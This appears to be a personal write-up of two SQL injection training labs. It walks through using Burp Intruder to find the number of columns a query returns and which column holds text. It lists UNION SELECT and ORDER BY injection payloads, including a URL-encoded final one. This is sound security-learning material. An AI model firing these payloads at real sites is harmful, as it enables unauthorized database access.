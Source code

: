 ﻿# Lab: SQL injection UNION attack, determining the number of columns returned by the query

![Pasted image 20241030154632.png](../../../../../IMAGES/Pasted%20image%2020241030154632.png)

To begin with this lab let's take a look at the page:

![Pasted image 20241030154840.png](../../../../../IMAGES/Pasted%20image%2020241030154840.png)

We have a `refine your search` section, let's send the request to burp to analyze it:

![Pasted image 20241030155112.png](../../../../../IMAGES/Pasted%20image%2020241030155112.png)

We have a `filter?category=` section, I believe this is our injectable section, let's begin with the SQLI:


For this, I will use the notes from [SQLI](SQL%20INJECTION%20(SQLI).md), let's send our request to intruder and start the attack in the following way:


![Pasted image 20241030155422.png](../../../../../IMAGES/Pasted%20image%2020241030155422.png)

![Pasted image 20241030155739.png](../../../../../IMAGES/Pasted%20image%2020241030155739.png)

Let's launch the attack:

![Pasted image 20241030155927.png](../../../../../IMAGES/Pasted%20image%2020241030155927.png)
Judging based on the status code and response, we can pretty much visualize `' ORDER BY 3--` was the successful payload, let's look at the response:

![Pasted image 20241030160033.png](../../../../../IMAGES/Pasted%20image%2020241030160033.png)

![Pasted image 20241030160134.png](../../../../../IMAGES/Pasted%20image%2020241030160134.png)


Now, knowing that 3 is the right one, let's use the UNION attack:

```ad-important
##### USED:


`sql`

'+UNION+select+NULL--
'+UNION+select+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--
'+UNION+select+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL,+NULL--


```



Let's use intruder again the test our payloads:


![Pasted image 20241030161904.png](../../../../../IMAGES/Pasted%20image%2020241030161904.png)

So, the payload that worked was this:

```sql
'+UNION+select+NULL,+NULL,+NULL--
```


Let's send the request and finish the lab:



![Pasted image 20241030162009.png](../../../../../IMAGES/Pasted%20image%2020241030162009.png)

## EXPLANATION VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/umXGHbEyW5I" title="SQL Injection - Lab #3 SQLi UNION attack determining the number of columns returned by the query" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>



# Lab: SQL injection UNION attack, finding a column containing text


![Pasted image 20241030162905.png](../../../../../IMAGES/Pasted%20image%2020241030162905.png)

## SENDING THE REQUEST

![Pasted image 20241030171439.png](../../../../../IMAGES/Pasted%20image%2020241030171439.png)

So, taking advantage of the notes I took previously, this is what could work:

```ad-important

`' UNION SELECT 'a',NULL,NULL,NULL--`
`' UNION SELECT NULL,'a',NULL,NULL--`
`' UNION SELECT NULL,NULL,'a',NULL--`
`' UNION SELECT NULL,NULL,NULL,'a'--`
```


Let's try, first, let's send the request to intruder and launch the attack:


```ad-important

##### USED PAYLOAD:


' UNION select 'abcdef'--
' UNION select NULL,'abcdef',NULL--
' UNION select NULL,NULL,'abcdef',NULL--
' UNION select NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,'abcdef'--
' UNION select NULL,NULL,NULL,NULL,NULL,'abcdef'--




```


![Pasted image 20241030173119.png](../../../../../IMAGES/Pasted%20image%2020241030173119.png)

If we launch the attack, we realize that:

`' UNION select NULL,'abcdef',NULL--` 

Was successful:


![Pasted image 20241030173318.png](../../../../../IMAGES/Pasted%20image%2020241030173318.png)

So, we can finish the lab by sending the following request:


`' UNION select NULL,'0lrAqo',NULL--`


But since we need to send it encoded, this would be what we need to send:

`%27%20UNION%20select%20NULL%2C%270lrAqo%27%2CNULL--`


![Pasted image 20241030173523.png](../../../../../IMAGES/Pasted%20image%2020241030173523.png)


## EXPLANATION VIDEO

<iframe width="800" height="600" src="https://www.youtube.com/embed/SGBTC5D7DTs" title="SQL Injection - Lab #4 SQL injection UNION attack, finding a column containing text" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
